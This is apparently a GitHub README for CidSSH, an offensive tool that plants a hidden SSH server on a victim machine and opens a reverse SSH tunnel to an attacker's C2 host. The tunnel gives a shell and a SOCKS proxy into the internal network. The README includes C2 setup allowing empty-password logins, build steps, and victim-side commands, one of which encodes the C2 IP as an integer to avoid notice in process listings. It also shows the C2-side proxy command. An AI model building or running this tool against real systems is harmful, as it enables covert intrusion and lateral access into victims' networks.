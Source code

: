 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To generate mentioned project, just make sure you set in `CMake` the proper include and library paths for:
- libssh 
- openssl

You can find both of them already statically prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).

### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 
We have a dockerfile to do the compilation more easy `Dockerfile_linux_static`.
These are the steps to build and get the compiled binary from the container:
```
# Build the image, install dependencies and compile CidSSH
sudo docker build -t alpine_cid_ssh -f Dockerfile_linux_static .
# Copy the binary from the docker container to the current folder
sudo docker run -v `pwd`:/data_out -i -t alpine_cid_ssh:latest /bin/sh -c "cp /Cid-SSH/build/CidSSH /data_out/"
```

### Compilation on MacOs
Compile CidSSH:
```
cd ~/shared/SSHIUU/src/
mkdir build && cd build
git clone https://github.com/illera88/PrecompiledLibraries
cmake -DCMAKE_BUILD_TYPE=Release -DLIBSSH_STATIC_PATH=PrecompiledLibraries/macos/libssh_mod/ ..
make
```

## Using it
It's very easy. In the victim machine:
```
Cid-SSH.exe 192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```

